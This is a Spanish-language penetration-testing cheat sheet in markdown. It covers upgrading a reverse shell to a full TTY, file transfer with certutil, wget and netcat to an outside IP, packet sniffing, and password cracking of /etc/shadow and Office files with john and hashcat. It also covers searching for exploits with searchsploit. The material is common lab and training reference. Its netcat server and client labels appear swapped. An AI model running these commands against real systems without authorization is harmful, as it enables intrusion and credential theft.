  

### Tratamiento de la TTY

```python
script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
### TTY Shell con Python

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
### Descompresión

```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```
### Comparación de archivos

```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt


#FTP

#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>
```


#Netcat

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

```

### Sniffing

```python
tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con passwd y shadow

```python 
unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 

office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 

### Búsqueda de exploits

```python
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```